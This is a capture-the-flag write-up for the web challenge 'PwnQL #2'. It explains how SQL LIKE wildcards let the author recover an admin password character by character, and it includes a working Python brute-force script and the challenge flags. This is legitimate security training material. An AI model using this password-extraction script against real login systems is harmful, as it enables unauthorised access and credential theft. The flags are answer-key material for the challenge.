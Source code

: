 # PwnQL #2
### Category : Web
### Description : Extract the admin's password from the database.
### URL : http://chall1.heroctf.fr:8080
### Solution

We get the same link as PwnQL#1, We need to get the password but we cannot use any sql injection since the single quotes are escaped. So we can guess the password by guessing the individual characters.
To get the length we can send '\_' for each character and guess the password, ( the password length is 10 ). 

I wrote the following script to get the password
```
import requests
import string

# flag of first challenge -> Hero{pwnQL_b4sic_0ne_129835}

url = "http://chall1.heroctf.fr:8080/index.php"
chars = string.printable

# Each '_' is a placeholder for a single character
flag = ''
data = {"username":"admin", "password": '' }

print("[+]Getting the password")

for i in range(10):
    for char in chars:
        print("\rTrying " + str(char) + " at " + str(i), end="")
        temp = flag
        if char not in string.whitespace and char != '%' :
            temp += char
            data["password"] = str(temp) + "%"
            # print(data)
            res = requests.post(url ,data=data)
            if "pwnQL_b4sic_0ne_129835" in res.text:
                flag = flag + char
                print("\nFound " + str(char) + " at " + str(i))
                break
print(flag)                                                                                                            
```

### Flag : Hero{s3cur3p@ss}

